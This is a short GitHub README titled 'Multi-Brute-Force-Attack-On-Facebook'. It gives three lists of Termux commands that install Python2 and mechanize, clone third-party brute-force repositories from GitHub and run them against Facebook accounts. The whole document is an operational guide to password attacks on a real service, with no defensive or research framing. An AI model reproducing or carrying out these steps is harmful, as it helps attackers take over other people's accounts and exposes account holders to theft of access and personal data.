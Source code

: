 # MULTI-BRUTE-FORCE-ATTACK-ON-FACEBOOK  

So Let's Start....  
Step By Step  
First of All Download Termux from Google Play and Install it  After installing just give these commands to Termux  
And Run one by one  

# COMMAND LIST 1 
* $ apt update && apt upgrade  
* $ pkg install python2 
* $ pkg install git  
* $ pip2 install mechanize  
* $ git clone https://github.com/pirmansx/mbf  
* $ cd mbf 
* $ python2 MBF.py  

# COMMAND LIST 2  
* $ pkg update 
* $ pkg upgrade 
* $ pkg install python2  
* $ pkg install perl 
* $ pkg install curl 
* $ pkg install mechanize 
* $ pip2 install requsets 
* $ git clone https://github.com/Senitopeng/fbbrute 
* $ cd fbbrute 
* $ python2 fbbrute.py  

# COMMAND LIST 3 
* $ apt update && apt upgrade  
* $ pkg install pip 
* $ pkg install python 
* $ pkg install python2  
* $ pip2 install mechanize 
* $ pkg install git 
* $ git clone https://github.com/hnov7/mbf 
* $ cd mbf 
* $ ls 
* $ python2 mbf.py 
* $ 1 
* $ [y]

